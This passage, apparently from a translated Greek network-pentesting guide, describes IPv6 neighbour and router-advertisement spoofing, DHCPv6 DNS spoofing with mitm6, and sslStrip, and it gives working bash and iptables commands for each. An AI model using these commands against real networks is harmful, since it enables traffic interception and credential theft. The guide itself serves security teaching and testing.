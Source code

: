 ### [Πλαστογραφία SSDP και συσκευών UPnP](spoofing-ssdp-and-upnp-devices.md)

Μπορείτε να προσφέρετε διάφορες υπηρεσίες στο δίκτυο για να **εξαπατήσετε έναν χρήστη** να εισάγει ορισμένα **κείμενα καταχωρημένων διαπιστευτηρίων**. **Περισσότερες πληροφορίες σχετικά με αυτήν την επίθεση στο** [**Πλαστογραφία SSDP και συσκευών UPnP**](spoofing-ssdp-and-upnp-devices.md)**.**

### Πλαστογραφία γείτονα IPv6

Αυτή η επίθεση είναι πολύ παρόμοια με την επίθεση ARP Spoofing αλλά στον κόσμο του IPv6. Μπορείτε να κάνετε το θύμα να πιστέψει ότι η IPv6 της πύλης έχει τη MAC του επιτιθέμενου.
```bash
sudo parasite6 -l eth0 # This option will respond to every requests spoofing the address that was requested
sudo fake_advertise6 -r -w 2 eth0 <Router_IPv6> #This option will send the Neighbor Advertisement packet every 2 seconds
```
### Παραπλάνηση/Πλημμύρα IPv6 Router Advertisement

Ορισμένα λειτουργικά συστήματα παραμετροποιούν από προεπιλογή την πύλη από τα πακέτα RA που αποστέλλονται στο δίκτυο. Για να δηλώσετε τον επιτιθέμενο ως IPv6 router, μπορείτε να χρησιμοποιήσετε:
```bash
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```
### Παραπλάνηση DHCP IPv6

Από προεπιλογή, ορισμένα λειτουργικά συστήματα προσπαθούν να διαμορφώσουν το DNS διαβάζοντας ένα πακέτο DHCPv6 στο δίκτυο. Έτσι, ένας επιτιθέμενος μπορεί να στείλει ένα πακέτο DHCPv6 για να διαμορφώσει τον εαυτό του ως DNS. Το DHCP παρέχει επίσης ένα IPv6 στο θύμα.
```bash
dhcp6.spoof on
dhcp6.spoof.domains <list of domains>

mitm6
```
### HTTP (πλαστή σελίδα και εισαγωγή κώδικα JS)

## Επιθέσεις στο Διαδίκτυο

### sslStrip

Βασικά, αυτή η επίθεση κάνει το εξής: σε περίπτωση που ο **χρήστης** προσπαθήσει να **αποκτήσει πρόσβαση** σε μια **HTTP** σελίδα που ανακατευθύνεται στην έκδοση **HTTPS**, το **sslStrip** θα διατηρήσει μια **σύνδεση HTTP με** τον **πελάτη** και μια **σύνδεση HTTPS με** τον **διακομιστή**, έτσι ώστε να μπορεί να **καταγράψει** τη σύνδεση σε **καθαρό κείμενο**.
```bash
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```
Περισσότερες πληροφορίες [εδώ](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf).
